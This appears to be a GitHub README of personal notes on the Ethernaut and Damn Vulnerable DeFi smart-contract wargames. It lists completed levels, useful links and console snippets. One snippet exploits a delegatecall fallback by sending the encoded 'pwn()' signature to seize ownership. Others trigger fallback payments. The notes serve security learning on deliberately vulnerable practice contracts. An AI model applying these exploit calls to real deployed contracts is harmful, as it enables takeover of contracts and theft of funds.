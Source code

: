 ## Website
https://ethernaut.openzeppelin.com/
https://www.damnvulnerabledefi.xyz/

## Completed
0. Hello Ethernaut ✔
1. Fallback ✔
2. Fallout ✔
3. CoinFlip ✔
4. Telephone ✔
5. Token ✔
6. Delegation ✔
7. Force ✔
8. Vault ✔
9. King ✔
10. Re-entrancy ✔
11. Elevator ✔
12. Privacy ✔

## Other useful sites:

https://www.pauric.blog/How-To-Hack-Ethereum-Contracts-The-Easy-Way/

https://trufflesuite.com/docs/truffle/getting-started/interacting-with-your-contracts

https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925

## Other Notes:

player is you
get the balance using
```
getBalance(player)
```

interact with the `contract`
```
(await contract.contributions(player)).toString();
await contract.contribute.sendTransaction({value: toWei(.0009)})
```
contract is a truffle object. can do fallback methods using
```
contract.sendTransction({value: 50000000});
```


### Delegate call with encoding of function signature
```
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
  
  # Called with
  await contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature("pwn()")})
  
```

### Sending Ether
https://solidity-by-example.org/sending-ether/

### Re-Entrancy!!
https://solidity-by-example.org/hacks/re-entrancy/


